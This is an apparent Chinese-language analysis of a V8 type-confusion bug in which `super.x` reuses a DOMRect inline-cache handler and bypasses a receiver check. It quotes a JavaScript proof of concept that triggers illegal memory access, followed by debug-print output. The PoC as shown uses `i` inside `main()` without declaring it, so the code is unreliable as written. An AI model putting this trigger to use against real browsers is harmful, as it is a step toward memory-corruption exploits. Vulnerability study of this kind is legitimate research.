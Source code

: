 ### 漏洞触发原理

如您所见， `XAttributeGetCallback` 做了检查，如果 `receiver` 的类型不符合预期，那么就会在执行过程中报错：

```js
 class B {
    m() {
      return super.x;
    }
  }
  B.prototype.__proto__ = new DOMRectReadOnly(1, 1, 1, 1);
  let b = new B();
  b.m(); //<---- throws TypeError: Illegal invocation
```

而如果构建了超态内联缓存来绕过该检查，就能够避掷出错误，原作者给出了具体的 POC：

```js
class B {
  m() {
    return super.x;
  }
}

function main() {
  var domRect = new DOMRect(1, 1, 1, 1);
  domRect['a' + i] = 1;
  if (i < 20 - 1) {
    B.prototype.__proto__ = {};  //<----- sets to `{}` to avoid throw before triggering bug.
  } else {
    B.prototype.__proto__ = domRect;  //<----- triggers the bug after inline cache is created.
  }
  let b = new B();

  b.x0 = 0x40404040;
  b.x1 = 0x41414141;
  b.x2 = 0x42424242;
  b.x3 = 0x43434343;
  domRect.x; //<------ create inline cache
  b.m();     //<------ use inline cache, type confusion on i == 20
}  

for (let i = 0; i < 20; i++) main(i);
```

`main` 每次执行都会为 `B` 和 `domRect` 赋予新的 `map` ，在多次执行以后将会为 `domRect.x` 创建内联缓存处理程序，而在使用 `super.x` 时则会共享该处理程序，但是实际引用的对象确是 `receiver` ，于是它会通过既定的访问方式去 `let b` 中寻找，从而导致非法的内存访问而崩溃：

```c++
DebugPrint: 0x1b8108112d49: [JS_OBJECT_TYPE]  
- map: 0x1b810830a3d1 <Map(HOLEY_ELEMENTS)> [FastProperties]  
- prototype: 0x1b810811029d <B map = 0x1b810830afb1>  
- elements: 0x1b8108002249 <FixedArray[0]> [HOLEY_ELEMENTS]  
- properties: 0x1b8108002249 <FixedArray[0]>  
- All own properties (excluding elements): {  
   0x1b81082fc281: [String] in OldSpace: #x0: 0x1b8108112d65 <HeapNumber 1077952576.0> (const data field 0), location: in-object  
   0x1b81082fc291: [String] in OldSpace: #x1: 0x1b8108112d71 <HeapNumber 1094795585.0> (const data field 1), location: in-object  
   0x1b81082fc2a1: [String] in OldSpace: #x2: 0x1b8108112d7d <HeapNumber 1111638594.0> (const data field 2), location: in-object  
   0x1b81082fc2b1: [String] in OldSpace: #x3: 0x1b8108112d89 <HeapNumber 1128481603.0> (const data field 3), location: in-object  
}  
0x1b810830a3d1: [Map]  
- type: JS_OBJECT_TYPE  
- instance size: 28  
```